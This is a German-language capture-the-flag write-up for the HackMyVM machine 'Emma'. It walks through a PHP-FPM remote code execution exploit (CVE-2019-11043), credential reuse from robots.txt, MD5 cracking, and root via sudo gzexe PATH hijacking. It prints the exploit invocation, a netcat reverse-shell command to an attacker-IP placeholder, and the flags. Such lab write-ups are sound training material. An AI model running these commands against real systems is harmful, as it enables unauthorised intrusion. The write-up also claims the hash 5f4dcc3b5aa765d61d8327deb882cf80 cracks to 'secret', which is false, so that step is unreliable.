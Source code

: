 # Emma - HackMyVM (Hard)

![Emma.png](Emma.png)

## Übersicht

*   **VM:** Emma
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Emma)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 13. September 2022
*   **Original-Writeup:** https://alientec1908.github.io/Emma_HackMyVM_Hard/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser "Hard"-Challenge war es, Root-Zugriff auf der Maschine "Emma" zu erlangen. Die Enumeration deckte einen Nginx-Webserver auf, der eine `/phpinfo.php`-Seite exponierte. Diese wurde genutzt, um eine PHP-FPM RCE-Schwachstelle (CVE-2019-11043) mittels des Tools `phuip-fpizdam` auszunutzen, was zu einer initialen Shell als `www-data` führte. Als `www-data` wurde das MySQL-Root-Passwort (`itwasonlyakiss`) in der `/robots.txt` des Webservers gefunden. In der MySQL-Datenbank (`users.users`) wurde ein MD5-Hash für den Benutzer `emma` entdeckt, der zu `secret` geknackt wurde. Nach dem SSH-Login als `emma` wurde die User-Flag gelesen. Eine `sudo`-Regel erlaubte `emma` das Ausführen von `/usr/bin/gzexe` als `root`. Durch PATH-Hijacking (Erstellen eines bösartigen `gzip`-Skripts in `/tmp` und Modifikation des `PATH`) wurde beim Ausführen von `sudo gzexe` eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `curl`
*   `gobuster`
*   `wfuzz` (Versuch, nicht erfolgreich)
*   `go` (zum Kompilieren von `phuip-fpizdam`)
*   `phuip-fpizdam` (PHP-FPM RCE Exploit)
*   `nc` (netcat)
*   `python3` (für PTY-Shell-Stabilisierung)
*   `mysql` (Client)
*   `Crackstation` (externer MD5-Cracker)
*   `ssh`
*   `sudo` (auf Zielsystem)
*   `gzexe` (als Exploit-Vektor)
*   Standard Linux-Befehle (`vi`, `stty`, `ss`, `echo`, `chmod`, `export`, `cd`, `ls`, `cat`, `id`, `who`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Emma" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mittels `arp-scan` (Ziel: `192.168.2.129`, Hostname `emma.vm`).
    *   `nmap`-Scan identifizierte SSH (22/tcp) und Nginx (80/tcp).
    *   `/robots.txt` auf Port 80 enthielt den String `itwasonlyakiss`.
    *   `gobuster` fand `/phpinfo.php` auf Port 80.

2.  **Initial Access (als `www-data` via PHP-FPM RCE):**
    *   Die `/phpinfo.php`-Seite wurde genutzt, um eine PHP-FPM RCE-Schwachstelle (CVE-2019-11043) mit dem Tool `phuip-fpizdam` auszunutzen.
    *   Das Tool ermittelte die notwendigen Parameter (`--qsl 1755 --pisos 30`).
    *   Der Exploit wurde mit einem Reverse-Shell-Payload ausgeführt (`./phuip-fpizdam --qsl 1755 --pisos 30 "http://emma.vm/phpinfo.php?a=[payload]"`) und etablierte eine Shell als `www-data`.

3.  **Privilege Escalation (von `www-data` zu `emma` via MySQL Credentials):**
    *   Als `www-data` wurde der lokale MySQL-Server untersucht.
    *   Das Passwort `itwasonlyakiss` (aus `robots.txt`) wurde erfolgreich für den MySQL-`root`-Login verwendet.
    *   In der Datenbank `users`, Tabelle `users`, wurde ein MD5-Hash (`5f4dcc3b5aa765d61d8327deb882cf80`) für den Benutzer `emma` gefunden.
    *   Der Hash wurde mit Crackstation.net zu `secret` geknackt.
    *   Ein SSH-Login als `emma` mit dem Passwort `secret` war erfolgreich.

4.  **Privilege Escalation (von `emma` zu `root` via `sudo gzexe` / PATH Hijacking):**
    *   Als `emma` wurde die User-Flag gelesen.
    *   `sudo -l` zeigte, dass `emma` `/usr/bin/gzexe` als `root` ohne Passwort ausführen durfte.
    *   Ein bösartiges Skript namens `gzip` wurde in `/tmp` erstellt, das eine Netcat-Reverse-Shell startete (`echo "nc -e /bin/sh [Angreifer-IP] 4444" > /tmp/gzip`).
    *   Das Skript wurde ausführbar gemacht (`chmod +x /tmp/gzip`).
    *   Der `PATH` wurde manipuliert, sodass `/tmp` Vorrang hatte (`export PATH=/tmp:$PATH`).
    *   Der Befehl `sudo /usr/bin/gzexe /beliebige/datei` (z.B. `/bin/id`) wurde ausgeführt.
    *   Dies löste das bösartige `/tmp/gzip`-Skript als `root` aus und etablierte eine Root-Shell zum Listener des Angreifers. Die Root-Flag wurde gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Information Disclosure in `robots.txt`:** Das MySQL-Root-Passwort wurde in `robots.txt` preisgegeben.
*   **PHP-FPM RCE (CVE-2019-11043):** Ausnutzung einer bekannten Schwachstelle über eine exponierte `phpinfo.php`-Seite.
*   **Speicherung von Passwörtern als MD5-Hash:** Ein MD5-Hash in der Datenbank konnte leicht geknackt werden.
*   **Passwort-Wiederverwendung / Schwache Passwörter:** Das MySQL-Root-Passwort war einfach, ebenso das Passwort für `emma`.
*   **Unsichere `sudo`-Regel (`gzexe`):** Das Erlauben von `gzexe` als Root ist anfällig für PATH-Hijacking.
*   **PATH Hijacking:** Manipulation der `PATH`-Umgebungsvariable, um ein bösartiges Skript mit erhöhten Rechten auszuführen.

## Flags

*   **User Flag (`/home/emma/user.txt`):** `youdontknowme`
*   **Root Flag (`/root/root.txt`):** `itsmeimshe`

## Tags

`HackMyVM`, `Emma`, `Hard`, `Web`, `Nginx`, `PHP-FPM`, `CVE-2019-11043`, `RCE`, `robots.txt`, `Information Disclosure`, `MySQL`, `MD5 Cracking`, `SSH`, `sudo`, `gzexe`, `PATH Hijacking`, `Privilege Escalation`, `Linux`
